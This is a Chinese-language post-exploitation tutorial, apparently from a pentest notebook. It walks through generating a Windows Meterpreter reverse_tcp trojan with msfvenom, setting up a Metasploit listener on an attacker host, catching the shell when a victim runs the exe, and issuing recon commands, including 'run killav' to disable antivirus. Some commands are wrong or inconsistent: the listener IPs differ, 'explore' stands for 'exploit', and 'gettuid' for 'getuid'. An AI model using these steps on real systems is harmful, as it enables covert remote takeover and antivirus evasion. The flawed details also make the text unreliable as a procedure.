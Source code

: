## 2、后渗透

### 1、生成exe木马

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.127 LPORT=4444 -f exe -o 123.exe
```

10.10.10.127是攻击者的监听机器，4444是被攻击机器监听端口

### 2、开启kali监听

启动msfconsole

![image-20220317151928134](https://tva1.sinaimg.cn/large/e6c9d24ely1h0cwlr427jj20hg0gkta3.jpg)

#### 开启监听

```
use exploit/multi/handler
```

#### 设置tcp监听

```
set payload windows/meterpreter/reverse_tcp

set lhost 212.129.238.18

#输入开始监听
explore
```

![image-20220317152306277](https://tva1.sinaimg.cn/large/e6c9d24ely1h0cwpjmmdoj20uk0e640c.jpg)



### 3、木马上线

当被攻击的机器（我的是windows xp）点击生成的123.exe木马时，即可以监听到木马上线

![image-20220317152638860](https://tva1.sinaimg.cn/large/e6c9d24ely1h0iuue7l2yj217009st9y.jpg)



### 4、主机信息收集

#### 1.查看主机网络配置

```
ipconfig			查看网络

arp -a			查看arp表查看连接过的ip

sysinfo			查看系统信息

whoami			查看当前用户名称

net user			查看用户名单

gettuid			查看当前权限

run killav		关闭杀毒软件
```
